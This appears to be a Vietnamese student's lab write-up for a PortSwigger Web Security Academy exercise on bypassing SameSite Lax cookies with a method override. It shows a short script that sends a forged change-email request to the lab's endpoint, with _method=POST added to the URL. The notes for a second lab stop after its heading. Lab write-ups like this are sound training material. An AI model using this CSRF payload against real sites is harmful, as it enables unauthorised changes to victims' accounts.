


# [Lab 7: SameSite Lax bypass via method override](https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-lax-bypass-via-method-override)



```
- Mô tả lab:

- Mục tiêu: 
```

main web


login `wiener:peter`, `Update email`


không hề có CSRF token bảo vệ


SameSite cũng không chặn gì


đổi method POST sang GET (Right-click → Change request method)


method không được phép


thêm key `_method=POST` thì lại change được bình thường


→ Tấn công CSRF

```
<script>
    document.location = "https://0a7b009e0489153780b626ba00ba0007.web-security-academy.net/my-account/change-email?email=solveb%40Test&_method=POST"
</script>
```


View exploit để test xem có thành công không và deliver to victim and solve lab


# [Lab 8: SameSite Strict bypass via client-side redirect](https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-client-side-redirect)


main web



# []()

# []()

